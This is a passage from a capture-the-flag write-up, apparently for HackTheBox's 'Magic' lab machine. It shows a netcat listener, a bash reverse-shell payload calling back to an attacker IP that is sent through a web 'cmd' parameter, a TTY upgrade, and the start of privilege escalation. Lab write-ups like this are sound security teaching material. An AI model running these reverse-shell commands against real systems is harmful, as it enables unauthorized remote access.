 
It worked! Now it's a matter of finding a working payload to get a reverse shell. 


First, I start my local listner with:

```bash
rlwrap nc -lnvp 443
```

Then, after a bit of trail and error I found that the below payload works:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.54/443 0>&1"
```

I just use Burp's decoder to URL encode the payload and send it as the argument to the `cmd` parameter and I get a shell:

![shell-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Magic/img/shell-18.png)


## Privilege Escalation


After getting a shell as the `www-data` user I spwan a TTY shell by running:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Then, I try to list any sudo permisisons but I get prompted for credentials. 


Instead I decided to have a look around the file system and that's where I see the following file:

![db-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Magic/img/db-18.png)
